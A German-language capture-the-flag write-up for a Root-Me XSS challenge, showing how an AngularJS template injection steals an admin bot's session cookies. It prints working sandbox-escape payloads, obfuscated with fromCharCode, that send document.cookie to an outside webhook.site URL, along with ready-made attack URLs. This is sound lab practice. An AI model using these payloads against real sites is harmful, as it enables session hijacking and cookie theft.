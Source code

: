 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
tags:
  - Course/
---
```

# Root-Me XSS Dokumentation



## 🧩 Challenge-Ziel

**Ziel:** Die Session-Cookies des Admin-Bots stehlen, indem eine AngularJS Template Injection ausgenutzt wird, um den Admin auf eine eigene Webhook-URL umzuleiten.​

---

## ❌ Was nicht funktioniert hat

### 1. **Direkte Nutzung von `document.cookie`**

- **Versuch:** Einfache Payloads wie:

```Javascript
{{constructor.constructor('document.location="https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c="+document.cookie')()}}
```

und umgewandelt in:

```
http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7B%27a%27.constructor.prototype.charAt.constructor%28%27location%3D%22https%3A%2F%2Fwebhook.site%2F617db51b-f86d-4a0b-9234-193fadfd4ce4%3Fc%3D%22%2Bdocument.cookie%27%29%28%29%7D%7D
```

- **Ergebnis:** Keine Fehlermeldung, aber es wurden keine Cookies an den Webhook gesendet.
    
- **Grund:** Die Session-Cookies sind mit dem `HttpOnly`-Flag versehen, wodurch sie für JavaScript nicht zugänglich sind.​
    

### 2. **Selbsttest im eigenen Browser**

- **Versuch:** Den Payload im eigenen Browser ausführen.
    
- **Ergebnis:** Keine Cookies wurden an den Webhook gesendet.
- **Grund:** Moderne Browser schützen `HttpOnly`-Cookies vor JavaScript-Zugriff, selbst wenn der Payload korrekt ist.​

---

## ✅ Was funktioniert hat

### 1. **Verwendung von `fromCharCode` zur Umgehung von Filtern**

### ✨ Schritt 1: Deinen String in ASCII-Codes umwandeln

Der umzuwandelnde String:

`location.href='https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c='+document.cookie`

---

Hier dein fertiges **fromCharCode()-Array**:
```javascript
108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101
```

---

### 📦  fertiger Payload:

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

---

### ✅ Komplett fertige URL zum Absenden (für dein Contact-Formular):

**NICHT ENCODED:**

```
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

---

### 📣 Wichtig:

✅  Webhook `https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4` wird angesprochen.

✅ `?c=` wird ans Ende gehängt, damit dein Cookie auch ankommt.

✅ Verschleierung über `fromCharCode`, damit der Adminbot es schwerer hat, den Angriff zu erkennen.

### 🛡️ Sicherheitsmechanismen in AngularJS

**1. AngularJS-Sandbox**

AngularJS verwendet eine Sandbox, um den Zugriff auf gefährliche Objekte wie `window` oder `document` innerhalb von Template-Ausdrücken zu verhindern. Diese Sandbox prüft Ausdrücke und blockiert solche, die potenziell schädlich sein könnten. Allerdings wurden im Laufe der Zeit mehrere Methoden entdeckt, um diese Sandbox zu umgehen, insbesondere in älteren AngularJS-Versionen. ​[portswigger.net](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection?utm_source=chatgpt.com)

**2. Eingebaute XSS-Schutzmechanismen**

AngularJS bietet standardmäßig Schutzmechanismen gegen XSS-Angriffe. Dazu gehört die automatische Escapierung von Daten, die in Templates eingebunden werden. Allerdings können bestimmte Konstruktionen, wie z.B. die direkte Verwendung von `innerHTML` oder die Nutzung von `bypassSecurityTrustHtml()`, diese Schutzmechanismen umgehen. ​[pragmaticwebsecurity.com+1Angular+1](https://pragmaticwebsecurity.com/articles/spasecurity/angular-xss?utm_source=chatgpt.com)

### 🔍 Umgehung der Sicherheitsmechanismen

Um die Sicherheitsmechanismen zu umgehen, wurde eine Payload verwendet, die den `fromCharCode`-Ansatz nutzt, um den schädlichen Code zu verschleiern. Dies hilft, einfache Filter zu umgehen, die bestimmte Zeichen oder Wörter blockieren könnten.

### 📌 Fazit

Die Sicherheitsmechanismen in AngularJS, wie die Sandbox und automatische Escapierung, bieten einen gewissen Schutz gegen XSS-Angriffe. Allerdings können sie durch bestimmte Techniken umgangen werden, insbesondere in älteren Versionen oder bei unsachgemäßer Verwendung von AngularJS-Funktionen. Es ist daher wichtig, stets die neuesten Sicherheitspraktiken zu befolgen und Anwendungen regelmäßig auf Schwachstellen zu überprüfen.​

Wenn du weitere Informationen oder eine detailliertere Analyse benötigst, stehe ich gerne zur Verfügung.
